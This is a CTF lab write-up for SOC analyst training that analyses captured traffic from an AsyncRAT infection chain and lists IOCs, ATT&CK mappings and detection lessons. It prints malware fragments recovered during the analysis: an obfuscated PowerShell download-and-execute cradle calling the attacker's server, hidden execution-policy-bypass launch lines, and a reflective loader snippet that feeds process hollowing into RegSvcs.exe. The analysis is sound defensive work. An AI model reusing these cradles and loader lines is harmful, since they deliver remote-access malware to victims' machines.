# XLMRat Lab — CTF Writeup

---

## Scenario Overview

A compromised machine (`10.1.9.101`) was flagged due to suspicious network traffic. PCAP analysis revealed a multi-stage infection chain: an initial VBScript stager (`xlm.txt`) downloaded via HTTP on a non-standard port, followed by a disguised PowerShell payload (`mdm.jpg`), which drops three execution scripts, loads a .NET assembly via reflection, and performs **Process Hollowing** against the legitimate LOLBin `RegSvcs.exe` to inject an **AsyncRAT** backdoor payload.

---

## Network Traffic Overview

| Protocol | Packet Count | Total Bytes | Notes |
|---|---|---|---|
| TCP | 1,548 | 533,449 B | Dominant transport |
| HTTP | 44 | 34,184 B | Payload delivery (~431 KB + ~1.9 KB) |
| TLS | 648 | 68,257 B | Encrypted post-exploitation C2 |
| DNS | 2 | 394 B | Local resolution only |

**Victim IP:** `10.1.9.101`  
**Attacker IP:** `45.126.209.4` (1,548 packets / ~586 KB total)

---

## Attack Chain Overview

```
[Stage 1] HTTP GET → xlm.txt (VBScript stager, 1,974 bytes)
              └─ WScript.Shell.Run → cmd.exe → PowerShell.exe
              └─ -NOP -WIND HIDDeN -eXeC BYPASS -NONI

[Stage 2] HTTP GET → mdm.jpg (disguised PowerShell script)
              └─ Drops: C:\Users\Public\Conted.vbs
              └─ Drops: C:\Users\Public\Conted.bat
              └─ Drops: C:\Users\Public\Conted.ps1
              └─ Creates scheduled task: "Update Edge" (every 2 min)

[Stage 3] Conted.vbs → Conted.bat → Conted.ps1
              └─ Hex stream decode → $NKbb (AsyncRAT payload)
              └─ Hex stream decode → $pe (NewPE2.dll loader)
              └─ [Reflection.Assembly]::Load($pe)

[Stage 4] Process Hollowing
              └─ Target: C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe
              └─ Injects AsyncRAT payload into suspended process
              └─ C2 via TLS (port 443)
```

---

## Question 1 — What is the URL from which the first malware stage was downloaded?

### Wireshark Filter

```
http.request.method == "GET"
```

### Investigation

Filtering for HTTP GET requests reveals two sequential downloads from `45.126.209.4` on port 222:

**Timeline:**

| Frame | Time | Request |
|---|---|---|
| Frame 4 | 0.295141s | `GET /xlm.txt HTTP/1.1` → 1,974 bytes (VBScript stager) |
| Frame 12 | 1.585563s | `GET /mdm.jpg HTTP/1.1` → ~431 KB (PowerShell payload) |

The first stage (`xlm.txt`) is a VBScript that constructs and executes an obfuscated PowerShell command:

```powershell
# Reconstructed PowerShell command from xlm.txt:
[BYTe[]];$A123='IeX(NeW-OBJeCT NeT.W';
$B456='eBCLIeNT).DOWNLO';
[BYTe[]];$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING');
[BYTe[]];IeX($A123+$B456+$C789)
```

**Deobfuscation command:**

```bash
grep -o '".*"' xlm.txt | sed 's/"//g' | tr -d '\n'; echo
```

The PowerShell invocation flags used:

```
powershell.exe -NOP -WIND HIDDeN -eXeC BYPASS -NONI
```

The second GET request fetches `mdm.jpg` — the actual second-stage PowerShell payload — from the same server via `Net.WebClient.DownloadString()`.

### Answer

```
http://45.126.209.4:222/mdm.jpg
```




---

## Question 2 — Which hosting provider owns the associated IP address?

### Command

```bash
whois 45.126.209.4
```

### Investigation

WHOIS lookup for the attacker IP `45.126.209.4` reveals:

| Field | Value |
|---|---|
| Organization | ReliableSite.Net LLC |
| ASN | AS23470 |
| Netblock | `45.126.208.0/22` |
| Abuse Contact | `abuse@reliablesite.net` |

### Answer

```
reliableSite.net
```


---

## Question 3 — What is the SHA256 hash of the malware executable?

### Commands

```bash
# Step 1: Identify file type
file mdm.jpg

# Step 2: Inspect file content
cat mdm.jpg

# Step 3: CyberChef — Find/Replace '_' → '' to deobfuscate
# Step 4: Extract the hex stream for $NKbb (AsyncRAT payload)
# Step 5: Decode hex stream in CyberChef → export as binary

# Step 6: Decode from base64 (if needed)
echo "<base64_string>" | base64 -d > download.exe

# Step 7: Compute SHA256
sha256sum download.exe
```

### Investigation

**Step 1 — File identification:**

```bash
file mdm.jpg
# Output: ASCII text (not a JPEG image — extension spoofing)
```


**Step 2 — Script analysis:**

`mdm.jpg` is a PowerShell script containing:
- Hex-encoded byte streams (`$hexString_bbb` = AsyncRAT payload, `$hexString_pe` = NewPE2.dll loader)
- Obfuscated path strings using junk character injection (`#`)
- Three `[IO.File]::WriteAllText()` calls dropping `Conted.vbs`, `Conted.bat`, `Conted.ps1`
- A scheduled task creation (`"Update Edge"`, runs every 2 minutes)

**Step 3 — Deobfuscation in CyberChef:**

The hex stream for the AsyncRAT payload was extracted and decoded:

```
Operation: Find / Replace
Find (Regex): _
Replace: (empty)
Global match: Enabled
```


The decoded hex stream was converted to binary and exported as `download.exe`.



**Step 4 — Hash computation:**

```bash
sha256sum download.exe
```

### Answer

```
1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798
```


---

## Question 4 — What is the malware family label based on Alibaba?

### Investigation

The SHA256 hash `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` was submitted to VirusTotal. The Alibaba threat detection label:

```
Backdoor:MSIL/AsyncRat.a2786761
```

**VirusTotal Detection Summary:**

| Field | Value |
|---|---|
| Detection Score | 61/71 vendors |
| Alibaba Label | `Backdoor:MSIL/AsyncRat.a2786761` |
| Malware Family | **AsyncRAT** |
| Target Architecture | Win32 EXE / Intel 80386 / Mono/.NET |
| First Seen in Wild | 2024-01-11 18:17:54 UTC |

### Answer

```
asyncrat
```


---

## Question 5 — What is the PE header compile timestamp of the malware?

### Investigation

From VirusTotal's **Details** tab, the PE header `TimeDateStamp` field records when the executable was compiled:

```
PE Creation Time: 2023-10-30 15:08:44 UTC
```

### Answer

```
2023-10-30 15:08
```


---

## Question 6 — Which LOLBin is leveraged for stealthy process execution?

### Investigation

Inside `mdm.jpg`, the target binary path is obfuscated using junk character injection (`#`):

```powershell
# Obfuscated strings in mdm.jpg:
$NA = 'C:\W#######indow############s\Mi####cr'-replace '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe'-replace '#', ''
$VA = @($AC, $NKbb)
```

**CyberChef deobfuscation:**

```
Operation: Find / Replace
Find (Regex): #
Replace: (empty)
```

**Deobfuscated result:**

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe
```

**Why RegSvcs.exe?**

`RegSvcs.exe` is a **legitimate, Microsoft-signed** .NET Assembly Registration Utility. Attackers abuse it via **Process Hollowing** — the malware spawns `RegSvcs.exe` in a suspended state (`CREATE_SUSPENDED`), unmaps its memory (`NtUnmapViewOfSection`), writes the AsyncRAT payload into the process memory (`WriteProcessMemory`), and resumes execution (`ResumeThread`). This allows the malicious code to run under a trusted system binary, bypassing AppLocker and most AV/EDR solutions.

**MITRE ATT&CK:** T1055.012 — Process Hollowing | T1218.009 — Signed Binary Proxy Execution: Regsvcs/Regasm

### Answer

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe
```


---

## Question 7 — What files are dropped by the script?

### Investigation

Inside `mdm.jpg`, three `[IO.File]::WriteAllText()` calls write payload scripts to `C:\Users\Public\`:

**Conted.vbs — Silent Launcher:**

```vbscript
' Invokes Conted.bat with window style 0 (hidden) via WScript.Shell
wshShellObj.Run filePath, 0
```

**Conted.bat — Execution Policy Bypass:**

```bat
powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command "& 'C:\Users\Public\Conted.ps1'"
```

**Conted.ps1 — Hex Unpacker & Process Hollower:**

```powershell
# Decodes hex streams → loads NewPE2.dll via reflection → Process Hollowing into RegSvcs.exe
[Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe   = $hexString_pe  -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
$Fu = [Reflection.Assembly]::Load($pe)
$NK = $Fu.GetType('NewPE2.PE')
$MZ = $NK.GetMethod('Execute')
$MZ.Invoke($null, [object[]] @($AC, $NKbb))
```

**Additionally, a scheduled task** named `"Update Edge"` is created to run `Conted.vbs` every **2 minutes** for persistence.

| File | Full Path | Function |
|---|---|---|
| `Conted.vbs` | `C:\Users\Public\Conted.vbs` | Silent launcher (hidden window) |
| `Conted.bat` | `C:\Users\Public\Conted.bat` | Execution policy bypass |
| `Conted.ps1` | `C:\Users\Public\Conted.ps1` | Hex unpacker + process hollower |

### Answer

```
Conted.ps1,Conted.bat,Conted.vbs
```




---

## Full Attack Timeline

| Time | Frame | Event |
|---|---|---|
| 0.000000s | 1 | TCP session established: `10.1.9.101` ↔ `45.126.209.4` |
| 0.295141s | 4 | HTTP GET `/xlm.txt` → 1,974-byte VBScript stager downloaded |
| Local | — | `WScript.Shell.Run` → `cmd.exe` → `powershell.exe -NOP -WIND HIDDeN -eXeC BYPASS -NONI` |
| 1.585563s | 12 | HTTP GET `/mdm.jpg` → ~431 KB PowerShell payload downloaded |
| Local | — | `mdm.jpg` drops: `Conted.vbs`, `Conted.bat`, `Conted.ps1` |
| Local | — | Scheduled task `"Update Edge"` created (every 2 min) |
| Local | — | `Conted.vbs` → `Conted.bat` → `Conted.ps1` executes |
| Local | — | Hex streams decoded → `NewPE2.dll` loaded via Reflection |
| Local | — | `RegSvcs.exe` spawned suspended → AsyncRAT injected |
| Ongoing | — | TLS C2 communication (648 packets / 68,257 bytes) |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `10.1.9.101` | Victim host |
| IP | `45.126.209.4` | Attacker C2 / staging server |
| Port | `222/TCP` | Non-standard HTTP delivery port |
| Port | `443/TCP` | TLS C2 communications |
| URL | `http://45.126.209.4:222/xlm.txt` | Stage 1 — VBScript stager |
| URL | `http://45.126.209.4:222/mdm.jpg` | Stage 2 — PowerShell payload |
| File | `C:\Users\Public\Conted.vbs` | Silent launcher |
| File | `C:\Users\Public\Conted.bat` | Execution policy bypass |
| File | `C:\Users\Public\Conted.ps1` | Hex unpacker + process hollower |
| LOLBin | `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` | Process hollowing target |
| SHA256 | `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` | AsyncRAT payload hash |
| Task | `"Update Edge"` | Persistence scheduled task (every 2 min) |
| ASN | AS23470 — ReliableSite.Net LLC | Hosting provider |

---

## Key Commands Reference

```bash
# Identify file type (extension spoofing detection)
file mdm.jpg

# Extract obfuscated strings from VBScript
grep -o '".*"' xlm.txt | sed 's/"//g' | tr -d '\n'; echo

# WHOIS lookup for attacker IP
whois 45.126.209.4

# Decode base64 payload to binary
echo "<base64_encoded_payload>" | base64 -d > download.exe

# Compute SHA256 hash
sha256sum download.exe
```

**CyberChef Recipes:**

```
# Deobfuscate # junk characters
Operation: Find / Replace
Find (Regex): (#) (_)
Replace: (empty)
Global match: Enabled

# Decode hex stream to binary
Operation: From Hex
Delimiter: Underscore (_)
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.002 | Phishing: Spearphishing Link |
| Execution | T1059.005 | Command & Scripting: Visual Basic (xlm.txt) |
| Execution | T1059.001 | Command & Scripting: PowerShell |
| Defense Evasion | T1027 | Obfuscated Files or Information (# junk + string split) |
| Defense Evasion | T1036.007 | Masquerading: Double File Extension (mdm.jpg) |
| Defense Evasion | T1562.001 | Impair Defenses: Bypass Execution Policy (-eXeC BYPASS) |
| Defense Evasion | T1055.012 | Process Injection: Process Hollowing (RegSvcs.exe) |
| Defense Evasion | T1218.009 | Signed Binary Proxy Execution: Regsvcs/Regasm |
| Persistence | T1053.005 | Scheduled Task ("Update Edge", every 2 min) |
| Command & Control | T1105 | Ingress Tool Transfer (mdm.jpg download) |
| Command & Control | T1573.001 | Encrypted Channel (TLS C2) |
| Command & Control | T1071.001 | Web Protocols |

---

## Lessons Learned

1. **Inspect file headers, not extensions** — `mdm.jpg` is a PowerShell script. Always run `file <filename>` before trusting extensions. Deploy content-inspection proxies that validate MIME types.
2. **Alert on non-standard port HTTP** — Downloads over port 222 should trigger an immediate alert. Enforce egress filtering to allow only approved ports (80, 443).
3. **Monitor PowerShell with `-ExecutionPolicy Bypass`** — This flag combination (`-NOP -WIND HIDDeN -eXeC BYPASS -NONI`) is a known malicious execution pattern. Enable PowerShell Script Block Logging (Event ID 4104) and alert on this flag combination.
4. **Restrict LOLBin execution** — `RegSvcs.exe` should never be spawned by `powershell.exe`. Implement ASR rules and AppLocker policies to block non-standard parent-child relationships for signed Microsoft binaries.
5. **Hunt for Process Hollowing** — Monitor for processes with `CREATE_SUSPENDED` creation flags followed by `WriteProcessMemory` and `ResumeThread` calls. EDR rules for `NtUnmapViewOfSection` are effective.
6. **Alert on scheduled tasks with unusual names** — `"Update Edge"` is a social engineering name. SIEM rules should alert on any new scheduled task created by non-administrative processes.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: XLMRat Lab*